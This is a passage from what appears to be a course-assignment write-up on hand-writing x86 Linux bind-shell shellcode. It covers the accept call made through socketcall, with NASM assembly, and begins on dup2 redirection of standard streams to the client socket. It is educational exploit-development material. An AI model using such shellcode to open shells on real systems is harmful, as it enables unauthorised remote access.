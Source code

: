 ### Accept
Accept is a function that is also invoked by `socketcall`. The `net` header file contains the integer that needs to be specified for the `accept` function; this is `5`.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/linux/net.h | grep ACCEPT
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)		*/
#define __SO_ACCEPTCON	(1 << 16)	/* performed a listen		*/
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
```

Next, the arguments that are required by the `accept` function can be looked into.

```
SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```

The `accept` function is required to accept any incoming connections by clients. As client related information is unknown and does not need to be restricted it does not need to be populated with meaningful data.

```nasm
mov al, 0x66 ;socketcall syscall
inc bl ;ebx contains 5, for the type of socketcall, which is accept

;populate the stack with the arguments for accept
push esi  ;push accept addrlen to the stack
push esi  ;push accept sockaddr addr structure to the stack
push edx; push accept sockfd to the stack, this is the value of the file descriptor returned to socket

mov ecx, esp  ;All arguments for accept, as required by socketcall are pointed to by ECX
int 0x80  ;execute accept syscall

mov edx, eax ;move the return value from the accept syscall into EDX for preservation.
```

One thing to note is that a client socket file descriptor is returned to `EAX`. It will be important to preserve this for later use.

### Duplicate File Descriptor
Using the duplicate file descriptor, it will be possible to to redirect/duplicate STDIN(0), STDOUT(1) and STDERR(2) through the client socket file descriptor. Doing this makes the shell observable.

The first thing to do is identify the system call for `dup2`, this is `63`.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup
#define __NR_dup		 41
#define __NR_dup2		 63
#define __NR_dup3		330
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
```
